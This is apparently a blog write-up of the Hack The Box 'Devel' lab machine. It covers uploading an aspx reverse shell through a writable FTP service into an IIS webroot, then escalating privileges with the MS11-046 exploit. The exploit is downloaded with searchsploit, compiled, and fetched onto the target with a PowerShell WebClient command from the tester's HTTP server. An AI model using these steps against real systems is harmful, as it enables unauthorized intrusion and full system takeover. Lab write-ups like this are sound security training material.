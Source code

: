 ```yaml
---
title: "Devel"
date: 2023-07-03T17:35:59+02:00
tags: ["ftp","windows","web","IIS 7.5"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Devel.png
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "This room is a windows room with a http service which runs iis7.5 web server which content is able at a misconfigured ftp service."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Devel
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Devel

![Untitled](/HTB/devel-icon.png)

## Tools Used

- Nmap
- FTP
- Searchsploit

## Port Scanning

As always the port scan first:

```bash
 sudo nmap -p- --open -sCV -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5 -oN escaneo
```

![Untitled](/HTB/nmap-devel.png)

The scan results shows two open ports, the port 80 has an iis7 web server and the port 21 a ftp service with the content of the website, one folder named aspnet_client gives us a clue of what framework is using the website.

## Enumeration

![Untitled](/HTB/web-devel.png)

When I did a scan of directoies of the web I saw anything, then I start searching information of all
versions that were suporting the server and I found that there's one called IIS v7.5 that has multiple
vulnerabilities, also I found a dictionary of words for the wfuzz atack and I find some files now...

![Untitled](/HTB/whatweb-devel.png)

![Untitled](/HTB/iis-devel.png)

When I got stuck on the website I decided to continue with port 21 and establish an ftp connection to see 
what happened.

![Untitled](/HTB/ftp-devel.png)

I discovered that if I upload a file in html and then went to the web and do this -> `http://10.10.10.5/prueba.html`
it represents the file, :)

## Exploiting

Let’s exploit the machine

So I upload an exploit in **.aspx** and search it on the url and suprise we are in !!!

![Untitled](/HTB/url-devel.png)

![Untitled](/HTB/pwn-devel.png)

## Gaining an Initial Foothold

We are in now. Let’s see if we are root users or not.

![Untitled](/HTB/devel-1.png)

![Untitled](/HTB/devel-2.png)

If we try to enter in the users folder seems that we don’t have permissions.

![Untitled](/HTB/devel-3.png)

## Escalating Privilege

We can list the system information to see if we can escalate privileges.

![Untitled](/HTB/devel-4.png)

Our version is the Windows 7 build 7600 x86, it’s fairly old and no hotfix(s) are applied.


If we google it we can see a [exploit](https://www.exploit-db.com/exploits/40564) that fits well with what we want to do.

![Untitled](/HTB/devel-6.png)

![Untitled](/HTB/devel-7.png)

The exploit CVE-**[2011-1249](https://nvd.nist.gov/vuln/detail/CVE-2011-1249)** help us to escalate privileges.

Let’s download the exploit with searchsploit 

```bash
searchsploit -m "40564"
```

If we take a look to the documentation of the exploit we can see that the exploit need to be compiled with `mingw32` first.

```bash
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```
Options to upload the exploit to the windows machine:

- Now let’s create a http server with python to send this .exe.

  ```bash
   python -m http.server 80
  ```

  The remote machine doesn’t seems to have netcat but has powershell we can download the file with:

  ```bash
   powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:80/MS11-046.exe', 'c:\Users\Public\Downloads\40564.exe')"
  ```

  Once we have the exploit only left to run it, we can find it in c:\Users\Public\Downloads

- The second options, is to create smbserver with
  
  ```bash
   smbserver.py smbFolder /home/kali/HTB/devel -smb2support
  ```
  Then I connect with the windows machine and download the file and execute them ...  

  ![Untitled](/HTB/root-devel.png)

We have gained root access.

## Lessons Learned

- What insights did you gain from the room?
    
    We learned to put a reverse shell via the ftp service as well as escalate privilege with a exploit that take advantage of the afd.sys file.
    
- Were there any novel tools or techniques employed?
    
    We don’t employed any new tools but he know now a new format of reverse shell (aspx) that is employed by Microsoft [asp.net](http://asp.net).

**Thank you for reading, and happy hacking! 😄**
